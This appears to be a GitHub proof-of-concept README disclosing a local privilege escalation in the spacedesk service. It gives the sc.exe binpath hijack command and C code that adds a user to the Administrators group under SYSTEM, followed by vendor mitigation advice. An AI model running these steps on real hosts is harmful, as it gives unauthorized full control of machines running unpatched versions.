



# Spacedesk_POC

## Vulnerability Description

A Local Privilege Escalation (LPE) vulnerability exists in spacedesk Driver Software. The vulnerability stems from an insecure Service ACL (Access Control List) configuration assigned to the 'spacedeskService' 

### Affected Versions

msi Version:<= 2.2.17 (No fix available yet)

## Reproduction Environment

already in the github msi installer, the version is 2.2.17

## Proof of Concept (PoC)

the CheckServicePermission.cpp and the POC.cpp code detail is in the Github. the build version is on the release v1

## PoC Reproduction Steps

We need a test account for 

```
whoami /priv
net user test
```



```
.\CheckServicePermission.exe spacedeskService
```



An attacker can exploit this misconfiguration to modify the Binary Path of the service and point it to a malicious executable. 

```
sc.exe config spacedeskService binpath= C:\Users\test\Desktop\poc.exe
```

the poc code have the function add test to administrators group

```
DWORD WINAPI ServiceWorkerThread(LPVOID lpParam)
{
    system("net localgroup administrators test /add");
    return ERROR_SUCCESS;
}
```


Since the service runs with SYSTEM privileges , the malicious code will be executed with the highest level of authority upon service restart leading to a complete compromise of the affected host. We succes add our account to the admin groups.


```
net user test
```



## Video For Poc

https://github.com/kaliworld/spacedesk_poc/blob/main/POC.mp4


## Mitigation

The vendor should follow the Principle of Least Privilege (PoLP) and restrict the Service ACL. Ensure that only Administrators or SYSTEM accounts have SERVICE_CHANGE_CONFIG or SERVICE_ALL_ACCESS permissions. Standard users should only have SERVICE_QUERY_CONFIG, SERVICE_QUERY_STATUS, and SERVICE_START/STOP rights if absolutely necessary.
